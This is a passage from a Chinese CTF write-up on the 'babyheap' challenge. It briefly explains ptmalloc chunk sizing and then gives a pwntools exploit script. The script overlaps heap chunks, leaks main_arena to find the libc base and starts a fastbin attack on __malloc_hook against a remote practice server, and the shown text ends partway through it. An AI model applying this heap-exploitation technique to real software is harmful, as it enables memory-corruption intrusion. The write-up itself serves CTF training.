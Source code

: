    当 req=24 时，request2size(24)=32。而除去 chunk 头部的 16 个字节。实际上用户可用 chunk 的字节数为 16。而根据我们前面学到的知识可以知道 chunk 的 pre_size 仅当它的前一块处于释放状态时才起作用。所以用户这时候其实还可以使用下一个 chunk 的 prev_size 字段，正好 24 个字节。**实际上 ptmalloc 分配内存是以双字为基本单位，以 64 位系统为例，分配出来的空间是 16 的整数倍，即用户申请的 chunk 都是 16 字节对齐的。**









1. EXP：

   ``````python
   from pwn import*
   from LibcSearcher import*
   context(log_level='debug',arch='amd64')
   #p=process('./babyheap')
   p=remote('node5.buuoj.cn',29937)
   def alloc(size):
       p.sendlineafter(b'Command:',str(1))
       p.sendlineafter(b'Size:',str(size))
    
   def fill(index,size,content):
       p.sendlineafter(b'Command:',str(2))
       p.sendlineafter(b'Index:',str(index))
       p.sendlineafter(b'Size:',str(size))
       p.sendafter(b'Content:',content)
    
   def free(index):
       p.sendlineafter(b'Command:',str(3))
       p.sendlineafter(b'Index:',str(index))
    
   def dump(index):
       p.sendlineafter(b'Command:',str(4))
       p.sendlineafter(b'Index:',str(index))
    
   alloc(0x10)
   alloc(0x10)
   alloc(0x10)
   alloc(0x10)
   alloc(0x80)
   free(1)
   free(2)
   payload=p64(0)*3+p64(0x21)+p64(0)*3+p64(0x21)+p8(0x80)
   fill(0,len(payload),payload)
   payload=p64(0)*3+p64(0x21)
   fill(3,len(payload),payload)
   alloc(0x10)
   alloc(0x10)
   payload=p64(0)*3+p64(0x91)
   fill(3,len(payload),payload)
   alloc(0x80)
   free(4)
   dump(2)
   mainarena88=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
   mainarena=mainarena88-88
   malloc_hook=mainarena-0x10
   libc=LibcSearcher('__malloc_hook',malloc_hook)
   libcbase=malloc_hook-libc.dump('__malloc_hook')
   print(hex(mainarena88))
   print(hex(mainarena))
    
   alloc(0x60)
   free(4)
   payload=p64(malloc_hook-35)
   print(hex(malloc_hook))
   ``````